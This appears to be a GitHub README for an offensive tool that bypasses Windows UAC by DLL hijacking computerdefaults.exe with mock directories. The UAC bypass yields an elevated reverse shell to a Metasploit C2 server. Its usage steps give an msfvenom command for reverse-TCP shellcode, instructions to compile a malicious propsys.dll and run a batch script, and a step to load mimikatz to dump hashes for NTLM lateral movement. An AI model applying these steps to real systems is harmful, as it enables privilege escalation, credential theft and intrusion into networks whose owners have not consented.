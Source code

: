 # C2_Elevated_Shell_DLL_Hijcking
DLL Hijacking and Mock directories technique to bypass Windows UAC security feature and getting high-level privileged reverse shell. Security researchers identified this technique which uses a simplified process of DLL hijacking and mock folders to bypass UAC control. I tested this on Windows 10,11 and bypassed Windows 10 UAC security feature.  I am using Metasploit as a C2 server in order to get reverse shell and “computerdefaults.exe” binary to perform DLL hijacking attack. If an attacker got access of that user than he will escalate privileges in order to dump hashes and try to authenticate within network using NTLM hashes of that user. What if an attacker got elevated reverse shell of user, he don’t need to escalate privileges because he already got administrative shell on C2 server.


# USAGE
1) Create your shellcode using msfvenom (msfvenom -p windows/x64/shell_reverse_tcp lhost=0.0.0.0 lport=555 -f CSharp)
2) Compile Dllmain.cpp to create malicous DLL and rename propsys.dll
3) Put propsys.dll and batch file in same directory
4) Start Metasploit listener before executing batch script.
5) You will get elevated shell over C2 server.
6) Load mimikatz in order to dump hashes.

![1_QlGStDVsHu1ZemehjNZObQ](https://user-images.githubusercontent.com/76246439/160832289-1f5e660e-3ee9-4cfc-9b1f-32d9183135d3.png)
![1_h-WeaeVpN6P7F5Z6M_kKdA](https://user-images.githubusercontent.com/76246439/160832352-1d89318f-879d-400b-8644-41870958afa0.png)
![1_n9Px514ZD_KLLmSu3z4bug](https://user-images.githubusercontent.com/76246439/160832398-b9330b4f-00b7-47df-8bb3-00ed78577396.png)



